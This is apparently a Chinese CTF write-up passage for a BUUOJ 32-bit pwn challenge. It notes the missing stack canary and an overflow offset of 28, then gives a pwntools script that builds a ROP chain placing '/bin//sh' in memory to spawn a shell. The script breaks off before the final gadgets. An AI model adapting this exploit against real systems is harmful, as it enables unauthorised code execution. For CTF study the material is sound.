  <img src="/upload/img/image-20220411122744350.png" alt="image-20220411122744350" style="zoom:50%;" />
发现没有canary，并且有溢出
那就没少好说的了，看一下溢出偏移

<img src="/upload/img/image-20220411122749807.png" alt="image-20220411122749807" style="zoom:50%;" />

发现溢出偏移为28，然后直接打就行了。
```python
#coding:utf-8
from pwn import *
from struct import pack  #这里必须要引入这个包，不然是打不通的
context(arch = "i386",os = "linux",log_level='debug')
r=remote('node4.buuoj.cn',29254)
#r=process('./a')
offset=28
p=offset*'a'
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b81c6) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b81c6) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08049303) # xor eax, eax ; ret
p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de955) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
```